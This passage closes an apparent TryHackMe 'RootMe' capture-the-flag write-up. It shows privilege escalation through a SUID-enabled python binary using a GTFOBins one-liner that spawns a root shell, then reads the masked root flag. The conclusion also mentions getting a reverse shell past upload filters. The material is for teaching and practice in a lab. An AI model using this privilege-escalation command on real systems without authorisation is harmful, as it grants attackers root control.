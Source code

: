 In the list, there is one binary that can be used for privilege escalation when it has the SUID bit set, it is /usr/bin/python.
If we search for python on [GTFOBins](https://gtfobins.github.io/), we can see that it is possible to spawn a root shell when the SUID bit is set on python :  
![](https://i.imgur.com/RnSBKWs.png)  

Let's use this command and see if we get a root shell :  
```
www-data@rootme:/var/www$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

We are root ! Now let's get the root flag, it is located in /root.
```
# cd /root
# ls
root.txt
# cat root.txt
THM{*****************}
```

**Question : Search for files with SUID premission, which file is weird ?**  
**Answer : /usr/bin/python**

**Question : root.txt**  
**Answer : THM{*HIDDEN*}**  

## Conclusion

In this room, we can learn how to bypass simple upload filters to get a reverse shell, and we can learn how to make simple privilege escalation. I think it's a very
good room for beginners. Thanks for this room !

